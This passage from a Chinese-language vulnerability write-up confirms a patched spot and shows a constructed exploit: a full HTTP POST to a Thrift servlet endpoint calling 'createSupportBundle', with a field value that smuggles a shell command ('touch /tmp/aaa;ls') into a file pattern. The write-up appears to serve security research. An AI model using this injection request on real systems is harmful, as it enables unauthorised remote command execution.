 然后发现补丁中确实对这个进行了处理

[![](assets/1701612478-99ff62ba8497272ac63c203c66d9bc94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230614102853-34a067c8-0a5b-1.png)

说明我们找对了地方。

接下来就是构造thrift的协议请求包了，这个地方不说了，一边调试一边构造就可以了。最后构造出来exp如图

[![](assets/1701612478-b4c7fa27112cb7ac14d4ddf9f42423d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230614102903-3ab35c9c-0a5b-1.png)

```plain
POST /saasresttosaasservlet/ HTTP/2
Host: 192.168.1.155
Content-Type: application/x-thrift
Accept: application/x-thrift
User-Agent: Java/THttpClient/HC
Content-Length: 93
Accept-Encoding: gzip,deflate

[1,"createSupportBundle",1,1,{"1":{"str":"10000"},"2":{"str":"*.tar.gz;touch /tmp/aaa;ls "}}]
```
